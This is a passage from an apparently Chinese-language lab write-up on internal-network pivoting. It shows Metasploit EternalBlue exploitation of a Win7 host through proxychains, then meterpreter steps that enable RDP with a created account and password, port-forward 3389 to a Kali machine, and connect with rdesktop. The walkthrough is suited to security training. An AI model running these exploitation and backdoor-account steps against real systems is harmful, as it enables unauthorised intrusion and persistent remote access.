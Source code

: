 ```
[*] 192.168.201.129:445 - Connecting to target for exploitation.
[proxychains] Strict chain  ...  175.24.115.4:9999  ...  192.168.201.129:445  ...  OK
[+] 192.168.201.129:445 - Connection established for exploitation.
```



成功拿到Win7:`192.168.201.129`权限

![image-20211013163243113](/assets/image-20211013163243113.png)



利用Win7:`192.168.201.129`的远程桌面服务：但是失败

```shell
meterpreter > background                           #保存会话
msf6 exploit(windows/smb/ms17_010_eternalblue) > use post/windows/manage/enable_rdp    #使用开启rdp模块
msf6 post(windows/manage/enable_rdp) > set forward true                                #开启转发
msf6 post(windows/manage/enable_rdp) > set lport 2323                                 #设置本地端口
msf6 post(windows/manage/enable_rdp) > set username xuegod                          #设置用户名：xuegod
msf6 post(windows/manage/enable_rdp) > set password 123456                          #设置密码:123456
msf6 post(windows/manage/enable_rdp) > set SESSION 1                                #基于会话id:1
msf6 post(windows/manage/enable_rdp) > run                                         #运行
```

```
#将Win7的3389端口映射到本地kali的2323端口，即可通过本地的kali的2323端口，远程桌面到Win7
meterpreter > portfwd add -L 192.168.111.132 -l 2323 -p 3389 -r 192.168.201.129

rdp客户端连接
┌──(kali㉿kali)-[~]
└─$ rdesktop -g 1440x900 -u admin -p 123 192.168.111.132:2323
```
